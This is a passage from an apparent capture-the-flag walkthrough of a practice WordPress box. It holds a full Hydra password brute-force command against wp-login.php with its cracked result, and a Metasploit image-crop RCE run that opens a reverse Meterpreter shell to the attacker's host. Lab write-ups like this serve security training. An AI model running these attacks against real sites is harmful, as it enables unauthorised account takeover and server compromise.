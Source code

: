 Okay great! Let's go for Hydra now.

```
┌──(kali㉿kali)-[~]
└─$ hydra -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=password"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-08 06:33:32
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://blog.thm:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=password
[STATUS] 847.00 tries/min, 847 tries in 00:01h, 14343552 to do in 282:15h, 16 active
[STATUS] 845.00 tries/min, 2535 tries in 00:03h, 14341864 to do in 282:53h, 16 active
[80][http-post-form] host: blog.thm   login: kwheel   password: cutiepie1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-08 06:37:11
```

## 2. Foothold
So, now that we have the credentials ... so now what? Well whenever in doubt, we go back to the nmap scan. We see that the version 5.0 is being used. Looking it up, we have something tasty :D

Let's fire up `msfconsole` with the exploit [here in detail](https://blog.sonarsource.com/wordpress-image-remote-code-execution?redirect=rips) and [exploit-db](https://www.exploit-db.com/exploits/49512). Setup `options` and then `check`. Looks vulnerable, lesgooo.

```
msf6 exploit(multi/http/wp_crop_rce) > exploit

[*] Started reverse TCP handler on 10.8.150.214:4444 
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39282 bytes) to 10.10.21.78
[*] Attempting to clean up files...
[*] Meterpreter session 2 opened (10.8.150.214:4444 -> 10.10.21.78:35590) at 2021-05-08 06:59:17 -0400

meterpreter > shell
Process 1745 created.
Channel 1 created.
bash -i
bash: cannot set terminal process group (983): Inappropriate ioctl for device
bash: no job control in this shell
www-data@blog:/var/www/wordpress$ 
```
